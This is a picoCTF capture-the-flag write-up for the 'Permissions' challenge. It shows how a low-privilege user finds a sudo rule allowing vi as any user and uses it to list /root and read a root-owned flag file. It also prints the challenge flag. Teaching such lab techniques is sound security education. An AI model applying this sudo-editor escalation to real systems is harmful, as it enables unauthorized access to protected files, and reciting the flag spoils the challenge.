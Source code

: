 # Permissions

## Description

Can you read files in the root file?

Additional details will be available after launching your challenge instance.

## Hints

What permissions do you have?

## Walkthrough

After connecting to the target machine via ssh we'll be dropped into the home directory of "picoplayer", a low privilege user. Our goal is [vertical escalation](https://en.wikipedia.org/wiki/Privilege_escalation "Wikipedia article on privilege escalation"), so we should check if "picoplayer" has any sudo privileges. We can do this by using the command ```sudo -l```, which will list all sudo privileges for the current user.
```

$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

Looking through the output for ```sudo -l```, we'll see that "picoplayer" can run [vi](https://www.geeksforgeeks.org/vi-editor-unix/ "Geeks For Geeks article on Vi text editor") as any user (ALL).

```
User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
```

Our next step is to use the vi text editor to check the ```/root``` directory. We can do this with the command ```sudo vi /root``` which will output the following.

```
../
./
.vim/
.bashrc
.flag.txt
.profile
.viminfo
```

We can see the flag is being stored in a file called ".flag.txt" in the root directory.

Our final step is using the vi text editor as sudo to read the contents of ".flag.txt", which can be done with the command ```sudo vi /root/.flag.txt```.

```picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}```
